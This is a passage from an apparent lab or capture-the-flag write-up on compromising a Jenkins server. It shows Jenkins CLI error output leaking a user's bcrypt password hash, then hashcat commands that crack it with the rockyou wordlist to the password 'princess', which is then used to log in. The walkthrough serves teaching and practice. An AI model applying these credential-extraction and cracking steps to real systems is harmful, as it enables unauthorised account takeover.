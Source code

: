 ```
    <io.jenkins.plugins.thememanager.ThemeUserProperty plugin="theme-manager@215.vc1ff18d67920"/>: No such item ‘    <io.jenkins.plugins.thememanager.ThemeUserProperty plugin="theme-manager@215.vc1ff18d67920"/>’ exists.
      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>: No such item ‘      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>’ exists.

ERROR: Error occurred while performing this command, see previous stderr output.

```

It’s scrambled, but the last line is:

```
<passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>

```

### Crack Hash

The hash matches multiple Bcrypt formats. Trying to give it to `hashcat` returns that I need to give it a format:

```
$ hashcat jennifer_hash test --user
hashcat (v6.2.6) starting in autodetect mode
...[-snip]...
The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].

```

I’m giving it `--user` which treats “#jbcrypt” as the username.

The basic bcrypt format works and cracks very quickly:

```
$ hashcat -m 3200 jennifer_hash --user /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
...[snip]...
$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a:princess
...[snip]...

```

I get the password “princess”, and this works to log into Jenkins as jennifer.
